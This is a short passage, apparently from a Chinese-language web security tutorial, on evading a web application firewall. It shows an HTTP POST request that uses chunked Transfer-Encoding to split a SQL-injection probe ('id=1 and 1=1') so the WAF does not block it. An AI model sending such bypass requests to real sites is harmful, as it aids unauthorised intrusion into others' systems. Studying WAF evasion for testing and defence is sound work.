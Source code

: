<p><img src="assets/350afe5cb0d049d0a4a4bdeea116ec50.jpg" alt="图片" /></p>

<p>根据响应我们可以发现这个payload被WAF拦截，这时候，我们利用分块传输来进行绕过：</p>

<pre><code class="language-plain">POST /xxxxxx.php HTTP/1.1
......
Transfer-Encoding: Chunked

1;
i
d
=1
5
a
6
nd
2
1=1
0
</code></pre>

<p>获取到的响应为：</p>

<p><img src="assets/0c249606472147e8bacf117ad8931463.jpg" alt="图片" /></p>
